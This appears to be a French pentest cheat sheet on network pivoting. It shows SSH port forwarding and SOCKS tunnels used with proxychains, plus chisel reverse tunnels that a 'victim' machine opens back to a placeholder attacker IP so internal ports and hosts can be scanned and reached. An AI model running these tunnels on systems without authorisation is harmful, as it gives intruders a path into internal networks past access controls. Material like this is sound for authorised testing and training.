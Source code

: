 # Tunnel

## SSH

### Accéder au port local d'une machine distance depuis son hôte

Lorsqu'un port est exposé localement sur une machine distante (`Listent 127.0.0.1:<PORT-LOCAL-MACHINE-DISTANTE>`), il est tout de même possible de le joindre depuis sa propre machine d'attaque.

```
# Commande à exécuter sur la machine d'attaque
ssh -L <PORT-LOCAL-MACHINE-ATTAQUE>:localhost:<PORT-LOCAL-MACHINE-DISTANTE> <USER>@<IP>
```

Avec cette commande le `<PORT-LOCAL-MACHINE-DISTANTE>` de la machine `<IP>` sera joignable localement depuis la machine d'attaque sur le port `PORT-LOCAL-MACHINE-ATTAQUE>`.

#### Exemple

```
# Enumération sur le service
nmap 127.0.0.1 -p <PORT-LOCAL-MACHINE-ATTAQUE>

# Connexion ssh sur ce service
ssh <USER>@127.0.0.1 -p <PORT-LOCAL-MACHINE-ATTAQUE>
```

### Utiliser les outils de son hôte sur une machine distante (pivot)

```
# Mise en place du tunnel (Commande à exécuter sur la machine d'attaque)
ssh -D 9050 <USER>@<IP-MACHINE-DISTANTE>

# Exemple d'utilisation du tunnel
proxychains nmap <IP> # Permet de scanner les nouvelles machines accessibles
proxychains psql -h <IP-DB> -U <USER> -W # Permet de réaliser une connexion PSQL depuis la machine distante si l'accès n'est pas autorisé depuis l'hôte
proxychains ssh -D 9051 <USER>@<IP-MACHINE-DISTANTE-2> # Permet de réaliser un second tunnel. /!\ Modifier le port dans la configuration de proxychains (/etc/proxychains4.conf) 
```

## chisel

L'outil [chisel](https://github.com/jpillora/chisel) permet de faire un tunnel SOCKS entre un client et un serveur sur Linux et Windows. L'avantage par rapport aux tunnels SSH, c'est que les tunnels reposent sur un binaire. Ainsi, pas besoin que le service SSH soit actif.

### Accéder au port local d'une machine distance depuis son hôte

Les commandes suivantes permettent d'accéder au port 80 de la machine victime depuis la machine d'attaque en tapant sur le port local 8081.

```
# Sur la machine d'attaque 
./chisel server -p 8000 --reverse

# Sur la machine victime
./chisel client <IP-MACHINE-ATTAQUE>:8000 R:8081:127.0.0.1:80 permet de d'accéder au port 80 de la machine victime en tapant le port 127.0.0.1:8081 sur la machine de l'attaquant.
```

Dans le cas d'un port Web, il est même possible de voir le contenu dans Mozilla en accédant là l'adresse http://127.0.0.1:8081.

### Utiliser les outils de son hôte sur une machine distante (pivot)

Note : Utilisable quand la machine d'attaque ne peut pas joindre la machine victime.

```
# Sur la machine d'attaque 
./chisel server -p 8000 --reverse

# Sur la machine victime
./chisel client <IP-MACHINE-ATTAQUE>:8000 R:9050:socks

# Exemple d'utilisation du tunnel
proxychains nmap <IP>/<MASK> # Permet de scanner les nouvelles machines accessibles
proxychains psql -h <IP-DB> -U <USER> -W # Permet de réaliser une connexion PSQL depuis la machine distante si l'accès n'est pas autorisé depuis l'hôte
```

Il est possible d'afficher un service Web découvert par proxychains dans le navigateur Mozilla avec les paramètres suivants :&#x20;

* Manual proxy
* Socks : Host = 127.0.0.1 et port 9050
* Checkbox Socks v5 cochée&#x20;
* Checkbox Proxy DNS when using SOCKS v5 cochée
